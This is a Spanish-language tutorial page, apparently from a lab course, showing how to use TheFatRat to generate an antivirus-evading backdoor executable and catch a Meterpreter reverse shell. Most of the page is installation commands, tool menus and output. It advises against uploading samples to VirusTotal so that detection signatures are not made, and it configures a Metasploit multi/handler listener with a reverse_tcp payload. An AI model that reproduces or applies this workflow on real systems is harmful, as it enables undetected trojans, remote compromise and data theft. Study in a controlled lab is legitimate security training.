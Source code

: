 ```yaml
---
icon: mouse-field
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Evasión con TheFatRat

Vamos a ver una herramienta que se utiliza para la evasion de defensas super popular que esta en el siguiente repositorio de `GitHub`:

URL = [TheFatRat GitHub](https://github.com/screetsec/TheFatRat)

No viene instalada por defecto en `kali` por lo que tendremos que realizar lo siguiente para instalarla, adelanto que esta herramienta trae varias tecnicas de `frameworks` famosas para la evasion de defensas, por eso es tan famosa:

```shell
git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
sudo ./setup.sh
```

Mientras se esta instalando nos aparecera mas adelante una opcion la cual le daremos al `2`:

```
Select one of the options bellow                                                        
 +-----------------------------------------------------+                           
 | [ 1 ] Setup Backdoor-Factory Path Manually          |                           
 | [ 2 ] Install Backdoor-Factory from Kali Repository |                           
 +-----------------------------------------------------+                           
 
 Option : 2 
```

Despues nos aparecera esta otra opcion le daremos a `ENTER` seguidamente la `y`:

```
Write output directory for fatrat generated files or press enter to default.                              
Default : /root/Fatrat_Generated                                                                                                                                      
Write:                                                                             
 Do you want to create a shortcut for fatrat in your system                        
 so you can run fatrat from anywhere in your terminal and desktop ?                                                                                                   
 Choose y/n : y
```

Y con esto ya tendremos la herramienta instalada de forma correcta.

Ahora para iniciar la aplicacion tendremos que poner lo siguiente:

```shell
sudo fatrat
```

Y esto empezara a realizar los checkeos pertinentes para ver que todo este en orden, una vez realizado todo eso, nos pondra el siguiente mensaje:

```
==================================================================                   
         WARNING !  WARNING ! WARNING ! WARNING ! WARNING !                                
    YOU CAN UPLOAD OUTPUT/BACKDOOR FILE TO WWW.NODISTRIBUTE.COM                         
==================================================================                      
 ____  _____ _____ _____    _____ _____ __    _____ _____ ____                     
|    \|     |   | |_   _|  |  |  |  _  |  |  |     |  _  |    \                    
|  |  |  |  | | | | | |    |  |  |   __|  |__|  |  |     |  |  |                   
|____/|_____|_|___| |_|    |_____|__|  |_____|_____|__|__|____/                    
                         _____ _____                                               
                        |_   _|     |                                              
                          | | |  |  |                                              
                          |_| |_____|                                             
 _____ _____ _____ _____ _____    _____ _____ _____ _____ __                
|  |  |     | __  |  |  |   __|  |_   _|     |_   _|  _  |  |                      
|  |  |-   -|    -|  |  |__   |    | | |  |  | | | |     |  |__                    
 \___/|_____|__|__|_____|_____|    |_| |_____| |_| |__|__|_____|                              
==================================================================                             
       PLEASE DON'T UPLOAD BACKDOOR TO WWW.VIRUSTOTAL.COM                                  
    YOU CAN UPLOAD OUTPUT/BACKDOOR FILE TO WWW.NODISTRIBUTE.COM                    
==================================================================                                                                                                    
Press [Enter] key to continue ..............
```

Aqui nos avisa de que no subamos los binarios a `virustotal` ya que este lo comparte con los diferentes antivirus y asi pueden crear firmas para dicho binario y que despues no sirva para `bypassearlo`, despues de esto le daremos a `ENTER`, despues otra ver `ENTER` se iniciara una base de datos de `postgresql` y por ultimo veremos el menu de la herramienta:

```
resize: Time out occurred                                                                                                                                             
         ____                                                                      
        |    |                                                                     
        |____|                                                                     
       _|____|_       _____ _       _____     _   _____     _                      
        /  ee\_      |_   _| |_ ___|   __|___| |_| __  |___| |_                    
      .<     __O       | | |   | -_|   __| .'|  _|    -| .'|  _|                   
     /\ \.-.' \        |_| |_|_|___|__|  |___|_| |__|__|___|_|                     
    J  \.|'.\/ \                                                                   
    | |_.|. | | |   [--]   Backdoor Creator for Remote Acces [--]                  
     \__.' .|-' /   [--]  Created by: Edo Maland (Screetsec) [--]                  
     L   /|o'--'\   [--]            Version: 1.9.8           [--]                  
     |  /\/\/\   \  [--]          Codename: Target          [--]             
     J /      \.__\ [--]   Follow me on Github: @Screetsec   [--]                  
     J /      \.__\ [--]   Dracos Linux : @dracos-linux.org  [--]                  
     |/         /   [--]                                     [--]                  
       \      .'\.  [--]     SELECT AN OPTION TO BEGIN:      [--]                  
    ____)_/\_(___\. [--] .___________________________________[--]                  
   (___._/  \_.___)'\_.-----------------------------------------/                                                                                                 
        [01]  Create Backdoor with msfvenom                                        
        [02]  Create Fud 100% Backdoor with Fudwin 1.0                             
        [03]  Create Fud Backdoor with Avoid v1.2                                  
        [04]  Create Fud Backdoor with backdoor-factory [embed]                    
        [05]  Backdooring Original apk [Instagram, Line,etc]                       
        [06]  Create Fud Backdoor 1000% with PwnWinds [Excelent]                   
        [07]  Create Backdoor For Office with Microsploit                          
        [08]  Trojan Debian Package For Remote Acces [Trodebi]                     
        [09]  Load/Create auto listeners                                           
        [10]  Jump to msfconsole                                                   
        [11]  Searchsploit                                                        
        [12]  File Pumper [Increase Your Files Size]                          
        [13]  Configure Default Lhost & Lport                                    
        [14]  Cleanup                                                           
        [15]  Help                                                           
        [16]  Credits                                                         
        [17]  Exit                                                                                                                                           
 ┌─[TheFatRat]──[~]─[menu]:           
 └─────►   
```

Por lo que vemos podemos `backdoorizar` un binario de muchas formas en este `framework`, podemos hacerlo de diferentes formas con las diferentes herramientas que nos proporciona, incluso en la opcion `05` podemos ver que podemos generar una aplicacion como `instagram` para que cuando se ejecute, tambien se ejecute un `backdoor` que estara por detras para crearnos una `reverse shell`.

En este caso vamos a probar la opcion `2`, por lo que pondremos `2` y nos llevara a dicha tecnica viendo otras opciones:

```
  _______ ___ ___ ______   ___ ___ ___ ______  
  |   _   |   Y   |   _  \ |   Y   |   |   _  \ 
  |.  1___|.  |   |.  |   \|.  |   |.  |.  |   |
  |.  __) |.  |   |.  |    |. / \  |.  |.  |   |
  |:  |   |:  1   |:  1    |:      |:  |:  |   |
  |::.|   |::.. . |::.. . /|::.|:. |::.|::.|   |
   ---     ------- ------   --- --- --- --- ---   1.0
 
 Select one tool to create your Windows EXE FUD Rat 
 

 [ 1 ] - Powerstager 0.2.5 by z0noxz (powershell) (NEW)
 [ 2 ] - Slow But Powerfull (OLD)
 [ 3 ] - Return to menu

 ┌─[TheFatRat]──[~]─[FUDWIN]:
 └─────► 
```

En este caso podremos seleccionar el nuevo `payload` que ha salido para poder generarlo con `powershell` o podremos utilizar el viejo pero que es muy potente, vamos a darle al numero `2` y esto nos abrira una mini ventana de terminal en el que se nos generara el `payload`.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Despues de poner la `IP` y el puerto, veremos esto otro:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seleccionaremos la opcion `2` para que nos lo compile en `64 bits`, esto puede tardar un poco, pero cuando haya terminado veremos esto:

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Aqui nos comenta que ya compilo el binario de la `backdoor` pero que lo compilo una segunda vez el original para que este de forma mas ofuscada y el segundo compilado se llama `Powerfull-fud.exe` que es el que vamos a utilizar, nos muestra que esta en la siguiente ruta:

```shell
sudo ls -la /root/Fatrat_Generated
```

Info:

```
total 4528
drwxr-xr-x  2 root root    4096 Feb  8 07:03 .
drwx------ 12 root root    4096 Feb  8 07:03 ..
-rwxr-xr-x  1 root root 2591185 Feb  8 07:03 Powerfull.exe
-rwxr-xr-x  1 root root 2035665 Feb  8 07:03 Powerfull-fud.exe
```

Vemos que efectivamente se creo de forma correcta por lo que vamos a copiarnoslo a nuestro escritorio de `kali`.

```shell
sudo cp /root/Fatrat_Generated/Powerfull-fud.exe ~/Desktop
```

Ahora nos tendremos que pasar ese `binario` a la maquina `WS02` para probarlo a ver si lo detecta o no el `antivirus` hay a veces que lo puede detectar, ya que la forma en que la compila varia dependiendo de cuando lo ejecutes, por lo que hay que tener un poco de suerte tambien, pero vamos a probar a pasarnoslo a nuestra maquina victima `Windows`.

Por lo que vemos si nos lo pasamos a la maquina `Windows` con el `antivirus` activado, no nos lo va a detectar en mi caso, ahora vamos a probar a ejecutarlo, pero antes tendremos que estar a la escucha:

```shell
msfconsole -q
```

Ahora vamos a configurar la escucha:

```shell
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.5.205
set LPORT 7777
run
```

Ahora que estamos a la escucha, vamos a nuestra maquina victima `windows` y ejecutamos el binario directamente.

Si nos vamos donde tenemos la escucha tendremos que ver una conexion en `metasploit`, si tuvieramos alguna duda, podremos monitorearlo con `Wrireshark` por si vieramos trafico `TCP`, si vemos ese trafico es que se esta realizando la conexion, pero si no lo vemos es por que el binario esta mal formado o no se esta ejecutando de forma correcta.
